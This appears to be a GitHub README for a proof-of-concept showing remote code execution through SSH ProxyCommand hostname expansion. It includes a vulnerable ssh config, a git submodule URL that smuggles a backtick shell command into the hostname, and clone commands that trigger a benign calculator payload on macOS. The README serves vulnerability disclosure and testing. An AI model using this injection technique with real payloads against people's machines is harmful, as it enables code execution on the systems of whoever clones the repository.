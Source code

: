 ## RCE via insecure `~/.ssh/config`

Use of tokens like %h, %p in `ProxyCommand` is quite popular to use tunnels and connection proxying using SSH.

### Vulnerable config

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.168.2.123:8087 %h %p
```

Note: in my initial assessment I was under the impression that using '%h` (single quotes) would avoid this, but looks like that is still going to be vulnerable with something like:

```
url = ssh://'`open -aCalculator`'foo.example.com/bar
```

Taken from: https://man.openbsd.org/ssh_config#ProxyCommand

### What is in this repository

A submodule which would exploit this vulnerability to pop a calculator on OSX.

Try it out using:

`git clone https://github.com/DioLin/poc-proxycommand-vulnerable --recurse-submodules`

or

`git clone git@github.com:DioLin/poc-proxycommand-vulnerable.git --recurse-submodules`
